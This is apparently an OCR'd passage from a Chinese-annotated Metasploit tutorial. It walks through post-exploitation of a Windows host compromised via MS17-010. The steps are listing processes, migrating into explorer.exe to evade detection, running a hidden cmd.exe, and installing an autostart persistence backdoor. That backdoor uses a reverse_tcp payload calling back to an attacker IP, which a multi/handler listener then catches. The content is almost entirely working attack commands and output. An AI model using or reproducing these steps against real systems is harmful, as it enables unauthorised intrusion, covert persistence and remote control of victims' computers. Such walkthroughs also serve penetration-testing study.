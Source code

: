 ```
root@kali:~# netstat -an | grep "2222"  //我们在kali查看2222端口是在监听状态
tcp        0      0 0.0.0.0:2222            0.0.0.0:*               LISTEN     
root@kali:~# rdesktop 127.0.0.1:2222 //连接本地的2222端口反弹到目标的3389端口,即打开目标的桌面

meterpreter > ps  //查看系统进程

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]                                                
 4     0     System             x86   0        NT AUTHORITY\SYSTEM           
 240   2792  mstsc.exe          x86   0        NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\mstsc.exe
 264   4     smss.exe           x86   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 292   808   explorer.exe       x86   0        LOUISNIE\Administrator        C:\WINDOWS\Explorer.EXE
 312   264   csrss.exe          x86   0        NT AUTHORITY\SYSTEM           \??\C:\WINDOWS\system32\csrss.exe
 336   264   winlogon.exe       x86   0        NT AUTHORITY\SYSTEM           \??\C:\WINDOWS\system32\winlogon.exe
 384   336   services.exe       x86   0        NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\services.exe
 396   336   lsass.exe          x86   0        NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\lsass.exe
 452   1744  wuauclt.exe        x86   2        LOUISNIE\Administrator        C:\WINDOWS\system32\wuauclt.exe
 588   384   vmacthlp.exe       x86   0        NT AUTHORITY\SYSTEM 
 
meterpreter > migrate 292 //将该会话和系统进程绑定,免杀.格式是:migrate PID
 
meterpreter > execute -H -i -f cmd.exe //创建新进程cmd.exe，-H不可见，-i交互 -f用系统命令去执行

meterpreter > kali 1569  //杀死进程,格式是:kali PID
```

植入后门,维持控制

```
msf exploit(windows/smb/ms17_010_psexec) > sessions  -i 2  //开启第二个会话
[*] Starting interaction with 2...

meterpreter > run persistence - X -i 5 -p 4445 -r 192.168.135.136 //运行后门程序，-X指定启动的方式为开机自启动，-i反向连接的时间间隔

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
[*] Running Persistence Script
[*] Resource file for cleanup created at /root/.msf4/logs/persistence/MYCOMPUTER_20190219.3953/MYCOMPUTER_20190219.3953.rc
[*] Creating Payload=windows/meterpreter/reverse_tcp LHOST=192.168.135.136 LPORT=4445
[*] Persistent agent script is 99670 bytes long

meterpreter > background 
[*] Backgrounding session 2...
msf exploit(windows/smb/ms17_010_psexec) > back 
msf > use exploit/multi/handler    //使用exploit/multi/handler监听连入的backdoor
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp  //设置载荷
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.135.134  //设置将反弹到本地来
lhost => 192.168.135.134
msf exploit(multi/handler) > exploit 
```